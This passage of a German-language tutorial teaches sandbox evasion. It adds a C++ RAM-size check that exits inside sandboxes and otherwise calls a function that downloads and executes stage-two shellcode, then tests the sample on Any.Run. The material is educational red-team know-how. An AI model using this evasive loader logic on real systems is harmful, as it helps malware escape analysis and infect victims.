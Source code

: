 **Integration in unseren Code**

Jetzt, da wir das technische Wissen haben, sollten wir diese Überprüfung in unseren Code integrieren. Im Allgemeinen (Sie sollten dies selbst überprüfen) haben die meisten Sandboxes 4 GB RAM für die Maschine reserviert, also sollten wir überprüfen, ob die Speichergröße größer als 5 GB ist. Wenn dies nicht der Fall ist, beenden wir das Programm; wenn doch, setzen wir die Ausführung fort. Wir werden die Funktion `downloadAndExecute` nicht mehr ändern; von hier an werden wir neue Funktionen hinzufügen und die Hauptfunktion ändern.

```cpp
BOOL memoryCheck() {
    // Diese Funktion überprüft, ob das System mehr als 5 GB RAM hat
    // Deklariere die MEMORYSTATUSEX-Struktur    
    MEMORYSTATUSEX statex;
    // Setze die Länge der Struktur auf die Größe der Struktur    
    statex.dwLength = sizeof(statex);
    // Rufe die GlobalMemoryStatusEx Windows-API auf, um die aktuellen Speicherinformationen abzurufen    
    GlobalMemoryStatusEx(&statex);
    // Überprüfe, ob der Systemspeicher größer als 5,00 GB ist    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
    // Bewertet, ob die installierte RAM-Menge größer als 5,00 GB ist,
    // wenn ja, Shellcode herunterladen, wenn nein, das Programm beenden.    
    if (memoryCheck() == TRUE) {        
        downloadAndExecute();    
    } else {        
       exit;    
    }
    return 0;
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Wir erstellen eine neue Funktion (`memoryCheck`), die TRUE oder FALSE zurückgibt.
2. Wir verwenden den vorherigen Code, um die Größe des Systemspeichers zu ermitteln.
3. Wir überprüfen, ob der Systemspeicher größer als 5 GB ist; wenn ja, geben wir TRUE zurück; wenn nein, geben wir FALSE zurück.
4. Der Wert, der von der Funktion zurückgegeben wird, bestimmt, ob wir die Phase 2 herunterladen und ausführen oder nicht.

**Testen unseres Codes**

Nun, da wir die zweite unserer drei Sandbox-Evasion-Techniken abgeschlossen haben, ist es wichtig, dass wir sie testen, um sicherzustellen, dass sie funktioniert. Dazu laden wir unsere Dateien auf [Any.Run](http://any.run/) hoch:

- [Eine mit der Memory Check-Funktion](https://app.any.run/tasks/e2f6a64b-02ef-43ca-bea5-e724b234001c)
- [Eine ohne die Memory Check-Funktion](https://app.any.run/tasks/7d06fc67-35c9-45f5-8865-af9dd6486075)
